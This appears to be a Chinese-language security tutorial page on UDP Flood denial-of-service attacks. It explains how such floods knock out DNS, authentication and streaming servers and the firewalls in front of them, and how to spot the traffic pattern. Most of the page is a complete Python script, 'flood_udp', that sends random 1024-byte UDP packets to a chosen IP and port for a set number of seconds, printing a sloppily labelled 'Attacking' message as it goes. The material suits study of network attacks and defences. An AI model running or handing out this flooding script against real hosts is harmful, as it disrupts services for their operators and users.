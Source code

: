 ## UDP Flood

### 原理

UDP Flood是日渐猖厥的流量型DoS攻击，原理也很简单。常见的情况是利用大量UDP小包冲击DNS服务器或Radius认证服务器、流媒体视频服务器。 100k pps的UDP Flood经常将线路上的骨干设备例如防火墙打瘫，造成整个网段的瘫痪。由于UDP协议是一种无连接的服务，在UDP Flood攻击中，攻击者可发送大量伪造源IP地址的小UDP包。但是，由于UDP协议是无连接性的，所以只要开了一个UDP的端口提供相关服务的话，那么就可针对相关的服务进行攻击。

正常应用情况下，UDP包双向流量会基本相等，而且大小和内容都是随机的，变化很大。出现UDP Flood的情况下，针对同一目标IP的UDP包在一侧大量出现，并且内容和大小都比较固定。

### 实验

用python的socket构造UDP流量，代码如下：

```python
"""
Usage : ./flood_udp <ip> <port> <second>
"""
import time
import socket
import random
import sys

def usage():
    print "Usage: " + sys.argv[0] + " <ip> <port> <second>"

def flood(victim, vport, duration):
    # okay so here I create the server, when i say "SOCK_DGRAM" it means it's a UDP type program
    client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    # 1024 representes one byte to the server
    bytes = random._urandom(1024)
    timeout = time.time() + duration
    sent = 0

    while 1:
        if time.time() > timeout:
            break
        else:
            pass
        client.sendto(bytes, (victim, vport))
        sent = sent + 1
        print "Attacking %s sent packages %s at the port %s "%(sent, victim, vport)

def main():
    print len(sys.argv)
    if len(sys.argv) != 4:
        usage()
    else:
        flood(sys.argv[1], int(sys.argv[2]), int(sys.argv[3]))

if __name__ == '__main__':
    main()
```
